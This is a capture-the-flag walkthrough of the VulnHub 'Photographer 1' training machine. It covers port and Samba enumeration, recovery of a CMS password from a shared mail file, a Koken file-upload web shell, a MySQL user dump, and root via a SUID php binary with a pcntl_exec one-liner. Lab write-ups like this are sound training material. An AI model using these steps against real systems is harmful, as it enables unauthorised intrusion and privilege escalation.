 
# Description

<https://www.vulnhub.com/entry/photographer-1,519/>

This machine was developed to prepare for OSCP. It is boot2root, tested on VirtualBox (but works on VMWare) and has two flags: user.txt and proof.txt.


# Scan ports

    └─$ sudo nmap -sT -A -Pn -n 192.168.110.59
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-26 15:09 CEST
    Nmap scan report for 192.168.110.59
    Host is up (0.00012s latency).
    Not shown: 996 closed ports
    PORT     STATE SERVICE     VERSION
    80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Photographer by v1n1v131r4
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-generator: Koken 0.22.24
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: daisa ahomi
    MAC Address: 08:00:27:40:5C:B0 (Oracle VirtualBox virtual NIC)
    Device type: general purpose
    Running: Linux 3.X|4.X
    OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
    OS details: Linux 3.2 - 4.9
    Network Distance: 1 hop
    Service Info: Host: PHOTOGRAPHER

    Host script results:
    |_clock-skew: mean: 1h19m57s, deviation: 2h18m33s, median: -2s
    |_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: photographer
    |   NetBIOS computer name: PHOTOGRAPHER\x00
    |   Domain name: \x00
    |   FQDN: photographer
    |_  System time: 2021-10-26T09:09:41-04:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-10-26T13:09:42
    |_  start_date: N/A

    TRACEROUTE
    HOP RTT     ADDRESS
    1   0.12 ms 192.168.110.59

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 15.63 seconds

# Scan samba service

    $ enum4linux 192.168.110.59

     =========================================== 
    |    Share Enumeration on 192.168.110.59    |
     =========================================== 

            Sharename       Type      Comment
            ---------       ----      -------
            print$          Disk      Printer Drivers
            sambashare      Disk      Samba on Ubuntu
            IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))


    S-1-22-1-1000 Unix User\daisa (Local User)
    S-1-22-1-1001 Unix User\agi (Local User)

## Download smb share

    └─$ smbclient //192.168.110.59/sambashare

    smb: \> mget *

    cat mail.txt

    Message-ID: <4129F3CA.2020509@dc.edu>
    Date: Mon, 20 Jul 2020 11:40:36 -0400
    From: Agi Clarence <agi@photographer.com>
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
    X-Accept-Language: en-us, en
    MIME-Version: 1.0
    To: Daisa Ahomi <daisa@photographer.com>
    Subject: To Do - Daisa Website's
    Content-Type: text/plain; charset=us-ascii; format=flowed
    Content-Transfer-Encoding: 7bit

    Hi Daisa!
    Your site is ready now.
    Don't forget your secret, my babygirl ;)

# Scan port 8000

    └─$ nikto -h 192.168.110.59 -port 8000
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          192.168.110.59
    + Target Hostname:    192.168.110.59
    + Target Port:        8000
    + Start Time:         2021-10-29 11:13:32 (GMT2)
    ---------------------------------------------------------------------------
    + Server: Apache/2.4.18 (Ubuntu)
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + Uncommon header 'x-koken-cache' found, with contents: hit
    + All CGI directories 'found', use '-C none' to test none
    + Server may leak inodes via ETags, header found with file /, inode: 1264, size: 5cf45b17a5a00, mtime: gzip
    + Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
    + Uncommon header 'x-xhr-current-location' found, with contents: http://192.168.110.59/
    + Web Server returns a valid response with junk HTTP methods, this may cause false positives.
    + DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
    + OSVDB-3092: /admin/: This might be interesting...
    + OSVDB-3092: /app/: This might be interesting...
    + OSVDB-3092: /home/: This might be interesting...
    + OSVDB-3233: /icons/README: Apache default file found.
    + /admin/index.html: Admin login page/section found.
    + /server-status: Apache server-status interface found (protected/forbidden)
    + 26547 requests: 0 error(s) and 15 item(s) reported on remote host
    + End Time:           2021-10-29 11:15:09 (GMT2) (97 seconds)
    ---------------------------------------------------------------------------
    + 1 host(s) tested



# Found login password to koken

    daisa@photographer.com : babygirl

# Search sploit and upload shell
    
    $ searchsploit koken 
    $ searchsploit -m php/webapps/48706.txt

# Reversehell

    http://192.168.110.59:8000/storage/originals/ef/7a/shell.php

# Exploit

    $ cat /home/daisa/user.txt
    d41d8cd98f00b204e9800998ecf8427e

    $ cat ./storage/configuration/database.php
    <?php
            return array(
                    'hostname' => 'localhost',
                    'database' => 'koken',
                    'username' => 'kokenuser',
                    'password' => 'user_password_here',
                    'prefix' => 'koken_',
                    'socket' => ''
            );
    $

    mysql -ukokenuser -puser_password_here -hlocalhost koken -e "show tables" 2>&1
    mysql -ukokenuser -puser_password_here -hlocalhost koken -e "select * from koken_users" 2>&1

    $ find / -perm -u=s -type f -ls 2>/dev/null
     3901509   4772 -rwsr-xr-x   1 root     root        4883680 Jul  9  2020 /usr/bin/php7.2
     

    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    $ php -r "pcntl_exec('/bin/sh', ['-p']);"
    id
    uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
